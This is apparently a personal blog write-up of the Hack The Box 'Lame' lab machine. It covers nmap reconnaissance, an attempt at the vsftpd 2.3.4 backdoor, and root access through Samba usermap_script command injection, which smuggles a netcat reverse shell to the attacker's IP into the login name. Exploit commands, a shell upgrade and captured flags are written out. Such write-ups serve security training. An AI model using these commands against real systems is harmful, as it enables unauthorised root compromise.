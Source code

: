 ```yaml
---
layout: post
title: Lame
tags: [OSCP, writeup]
description: "Lame write-up"
---
```


![Lame logo](/assets/imgs/lame/lame.png)

### This is an easy linux box

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA lame 10.10.10.3 -Pn -v

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h06m30s, deviation: 2h49m44s, median: 6m28s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-07-15T06:12:45-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 21 (FTP) vsftpd 2.3.4 : anonymous login
- port 22 (SSH) OpenSSH 4.7p1
- port 139 (NETBIOS)  Samba smbd 3.X - 4.X
- port 445 (SMB) Samba smbd 3.0.20-Debian

We have some version, let's check for known exploits.

### Searchsploit

#### FTP

![](/assets/imgs/lame/searchsploit_vsftpd.PNG)

I download the metasploit exploit like so :

```bash
searchsploit -m unix/remote/17491.rb
```

Looking at the exploit, we see that the backdoor payload is initiated in response to a :) character  combination in the username which represents a smiley face. The code  sets up a bind shell listener on port 6200.

Let's try it manually :

We triggered the backdoor, by using a smiley after the username.

```
ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:liodeus): test:)   
331 Please specify the password.
Password:
```

Then we connect to the bind shell on port 6200.

```
nc 10.10.10.3 6200
id
whoami
```

But we got nothing, too bad, the FTP server must be patch !

#### SSH

![](/assets/imgs/lame/searchsploit_openssh.PNG)

As we can see, there is some exploit to do some "Username Enumeration". It might be interresting, but at the moment I don't really need a username. So if don't find anything with SMB, I'll get back to that exploit.

#### SMB

![](/assets/imgs/lame/searchsploit_samba3.0.20.PNG)

I see a "Command Execution", let's look at it.

## Exploit

------

Download the metasploit exploit :

```bash
searchsploit -m unix/remote/16320.rb
```

The interresting part is here :

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

 By specifying a username containing shell meta characters, attackers can execute arbitrary commands.[https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

I want a reverse shell so my payload should look something like this :

```ruby
./=`nohup nc -e /bin/bash 10.10.14.4 1234`
```

Let's try it !

Open a nc listener :

```ruby
nc -lvp 1234
```

Then triggered the exploit.

```bash
smbclient //10.10.10.3/tmp --option='client min protocol=NT1'

Enter WORKGROUP\liodeus's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/bash 10.10.14.4 1234`"
Password:
```

We have a connection back to our listener and we are "root", nice !

```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38077
id
uid=0(root) gid=0(root)
whoami
root
```

### Shell upgrade

Now that we have a shell, let's upgrade it :

```bash
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/#
```

And now go read the flags !

## Flags

------

### User.txt

```bash
find /home -name "user.txt"
/home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

### Root.txt

```bash
find /root -name "root.txt"
/root/root.txt
cat /root/root.txt
92caac3be140ef409e45721348a4e9df
```